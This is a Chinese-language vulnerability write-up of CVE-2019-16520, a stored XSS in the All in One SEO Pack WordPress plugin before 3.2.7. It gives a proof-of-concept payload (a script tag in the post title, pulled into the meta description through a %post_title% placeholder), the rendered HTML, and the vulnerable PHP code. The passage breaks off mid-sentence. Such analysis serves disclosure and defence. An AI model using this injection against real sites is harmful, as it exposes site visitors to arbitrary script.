 （CVE-2019-16520）WordPress Plugin - All in One SEO Pack 储存型xss
==================================================================

一、漏洞简介
------------

适用于WordPress的3.2.7之前的"all-in-one-seo-pack plugin"插件（aka All in
One SEO
Pack）易受存储XSS的影响，原因是该插件通过不安全的占位符替换提供的帖子的SEO特定描述的编码不正确。

二、漏洞影响
------------

wordpress \<= 3.2.6

三、复现过程
------------

### 1、利用过程

创建或编辑帖子时，可以设置以下值来显示漏洞：

    Title: test_aiosp_title&<>"';><script src='data:text/javascript,alert(1)'></script>a
    Description: test_aiosp_desc&<>"'; pt:%post_title% wp_title:%wp_title% bd:%blog_description% sd:%site_description% bt: %blog_title% st: %site_title% desc:%description%

当帖子被保存并以后访问时，将显示JavaScript警报弹出窗口。生成的HTML页面将包含以下代码

    <title>test_aiosp_title&amp;&lt;&gt;&quot;&#039;;&lt;script src=&#039;data:text/javascript,alert(1)&#039;&gt;&lt;/script&gt; | XXXXXXX</title>

    <!-- All in One SEO Pack 3.2.5 by Michael Torbert of Semper Fi Web Design[197,235] -->
    <meta name="description"  content="test_aiosp_desc&amp;&quot;&#039;; pt:test_aiosp_title&<>"';<script src='data:text/javascript,alert(1)'></script> wp_title:test_aiosp bd: sd: bt: XXXXXXX st: XXXXXXX desc:%description%" />

### 2、详细分析

该插件将几个字段添加到可以创建或编辑帖子的页面上。这样可以为每个帖子设置自定义标题和描述。此处提供的信息将插入meta到帖子页面上的相应-tags中。在将字段的值插入页面的HTML中之前，先对这些字段的值进行转义。

但是，在描述字段中，可以插入占位符，这些占位符在输出前已被某些值替换。也可以为前面提到的标题字段设置一个占位符。相关代码可以在
aioseop\_class.php第4546-4548行中找到：

    if ( false !== strpos( $description, '%post_title%', 0 ) ) {
        $description = str_replace( '%post_title%', $this->get_aioseop_title( $post, false ), $description );
    }

当攻击者在标题字段中设置有效负载并在描述字段中为标题字段的值提供占位符时，标题字段的原始值将被插入描述中。此后该描述未经过清理或编码。这使攻击者可以突破meta-tag属性并插入任意HTML和J
